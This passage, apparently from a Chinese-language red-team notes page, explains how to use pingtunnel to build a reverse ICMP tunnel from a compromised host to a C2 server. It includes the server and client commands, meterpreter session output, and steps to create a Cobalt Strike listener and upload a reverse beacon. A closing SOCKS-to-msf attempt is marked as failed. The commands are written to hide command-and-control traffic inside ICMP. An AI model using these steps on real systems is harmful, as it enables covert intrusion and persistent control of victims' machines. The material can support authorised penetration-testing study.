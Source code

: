 ```
meterpreter > getuid
Server username: ECHO0D-WIN\echo0d

```

![image-20240115153402449](./img/Tunnel/image-20240115153402449.png)

#### 转发TCP上线cs

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
```

* cobaltstrike创建listener
  https host和https port(c2)为ICMP隧道客户端的监听IP和端口
  https port(bind)为转发目的地址的端口

* 生成反向payload的beacon

* 上传生成的beacon到ICMP隧道客户端执行，成功通过反向ICMP隧道上线

#### 转发socks上线msf（失败）

> 按理说是这样的，但是流量里还是有tcp
